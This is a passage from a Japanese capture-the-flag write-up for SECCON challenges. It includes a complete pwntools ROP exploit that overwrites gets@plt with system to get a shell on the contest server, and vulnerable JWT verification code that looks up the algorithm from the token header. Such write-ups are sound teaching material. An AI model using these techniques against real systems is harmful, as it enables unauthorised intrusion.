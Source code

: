 問題がReturn Oriented Programmingで`system("/bin/sh")`しろと叫んでいますね。NX EnabledでStack Smashing Protctorなしです。  
一見すると簡単なROP問で、[実際簡単なROP問です](https://www.youtube.com/live/jwM5OP81cl0?feature=shared&t=3976)。想定解ではROP gadgetすら不要です。

しかし、なぜか書いたexploitが実環境で動かなくて、「warmup問がこんな難しいはずがない、絶対に何かがおかしい」と思いつつ環境に依存しない無駄に複雑なチェーンに書き直したりしてたら2時間近くも嵌まってしまいました。こんなの10分でできないといけないですよ、ヘタクソ!

ところで、Flagが`SECCON{i_miss_you_libc_csu_init_:cry:}` だったのですが、これは2018年に現れた`return-to-csu`と呼ばれるROPの手法のことらしく、どうやら私が引退していた間に新しい攻撃法が現れ、そして対策されて消えていっていたみたいです。諸行無常。~~この手法昔使ったことあるような…~~

追記: 現役の頃から存在した手法でした https://inaz2.hatenablog.com/entry/2014/12/03/204939 通りで見たことがあるわけか

exploit:
```python
from pwn import *

r = remote("rop-2-35.seccon.games", 9999)
# r = process("./chall")
# input()
buf = b""
p = b""
buf += b" " * (24 - len(p))
buf += p
buf += p64(0x40113d) #poprbp
buf += p64(0x404020 + 0x10) #rbp = gets@plt + 0x10
buf += p64(0x401171) #gets(rbp-0x10); rsp = rbp; pop rbp; ret
r.sendline(buf)

# 0x404020
buf = b""
buf += p64(0x401050) #gets@plt @ 0x404020 = system
buf += b"sh\0"
buf += b"A" * (0x10 - len(buf))
buf += p64(0x404020 + 8 + 0x10) #new rbp
buf += (p64(0x401016) + b"B" * 8) * 128 #rsp += 8; ret
buf += p64(0x401171) #gets == system, gets(rbp-0x10)
r.sendline(buf)
r.interactive()
```

### Bad JWT (web)

ペイロードの`isAdmin`が`true`のJWTを渡すとFlagを返してくれるwebサービスを攻略する問題です。

JWTの検証処理はこうなっています:
```javascript
// 抜粋:
const algorithms = {
	hs256: (data, secret) => 
		base64UrlEncode(crypto.createHmac('sha256', secret).update(data).digest()),
	hs512: (data, secret) => 
		base64UrlEncode(crypto.createHmac('sha512', secret).update(data).digest()),
}

const stringifyPart = (obj) => {
	return base64UrlEncode(JSON.stringify(obj));
}

const parsePart = (str) => {
	return JSON.parse(base64UrlDecode(str));
}

const createSignature = (header, payload, secret) => {
	const data = `${stringifyPart(header)}.${stringifyPart(payload)}`;
	const signature = algorithms[header.alg.toLowerCase()](data, secret); // <-- !!!!!!!!!
	return signature;
```